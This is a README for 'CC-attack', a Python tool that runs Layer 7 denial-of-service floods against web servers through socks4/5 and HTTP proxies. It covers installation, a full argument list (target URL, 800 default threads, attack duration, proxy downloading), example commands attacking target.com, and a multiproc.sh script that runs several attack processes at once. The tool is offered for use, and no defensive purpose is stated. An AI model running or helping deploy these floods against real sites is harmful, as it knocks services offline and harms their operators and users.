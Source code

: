        /////    /////    /////////////
      CCCCC/   CCCCC/   | CC-attack |/
     CC/      CC/       |-----------|/ 
     CC/      CC/       |  Layer 7  |/ 
     CC/////  CC/////   | ddos tool |/ 
      CCCCC/   CCCCC/   |___________|/

# CC-attack ![](https://img.shields.io/badge/Version-3.7.1-brightgreen.svg) ![](https://img.shields.io/badge/license-GPLv2-blue.svg)
 A script for using socks4/5 or http proxies to attack http(s) server.

 News:
- [x] Added Support of HTTP proxies
- [x] Updated proxy list based on rewritten script.
- [ ] Note: Proxy checker are currently not working. I'll fix later.

 Info:
- [x] Using Python3
- [x] Added more human-like options
- [x] Http Get/Head/Post/Slow Flood
- [x] Random Http Header/Data
- [x] Socks4/5 Proxies Downloader
- [x] Socks4/5 Proxies Checker
- [x] Customize Cookies
- [x] Customize Post Data 
- [x] Support HTTPS
- [x] Support Socks4/5

## Showcase
Using multiproc.sh with socks4 on a vps
![](https://i.imgur.com/KLJIZs8.png)

## Install
    If you only have one version of python:
    git clone https://github.com/Ni3zam/CC-attack.git
    cd CC-attack
    pip install -r requirements.txt
    python cc.py -help

    If you are using multiple version of python:
    git clone https://github.com/Ni3zam/CC-attack.git
    cd CC-attack
    pip3 install -r requirements.txt
    python3 cc.py -help

## Usage

    python cc.py <arguments> / python3 cc.py <arguments>

```
===============  CC-attack help list  ===============
   -h/help   | showing this message
   -url      | set target url
   -m/mode   | set program mode
   -data     | set post data path (only works on post mode)
             | (Example: -data data.json)
   -cookies  | set cookies (Example: 'id:xxx;ua:xxx')
   -v        | set proxy type (4/5/http, default:5)
   -t        | set threads number (default:800)
   -f        | set proxies file (default:proxy.txt)
   -b        | enable/disable brute mode
             | Enable=1 Disable=0  (default:0)
   -s        | set attack time(default:60)
   -down     | download proxies
   -check    | check proxies
=====================================================
```
### Some example of the usage
Download socks5 proxies as proxy.txt:
```
python3 cc.py -down -f proxy.txt -v 5
```
Attack a target with custom proxies list(socks4.txt) for 30 seconds :
```
python3 cc.py -url http://target.com -f socks4.txt -v 4 -s 30
```

## Usage of multiproc.sh
```
This script is using for increasing the performance of cc.py.
Due to the suck performance of python since it has a GIL lock,
And I am lazy to make a multiprocess version.
There is a option for linux user to increase their performance of cc.py

This script basicly just run cc.py multiple times to make it "multi-processing"

First, put this script and cc.py in the same folder.

Then prepare the proxies list by yourself or just run "python3 cc.py -down -v 4" (-v socks version)

After that, change the number of process.

At last, change atk_cmd to your command and run the script by "bash multiproc.sh"
```
Example setup of multiproc.sh (-v socks version) (-s attack time)
```
atk_cmd="python3 cc.py -url http://target.com -v 4 -s 60"

#number of process that you want
process=10

```

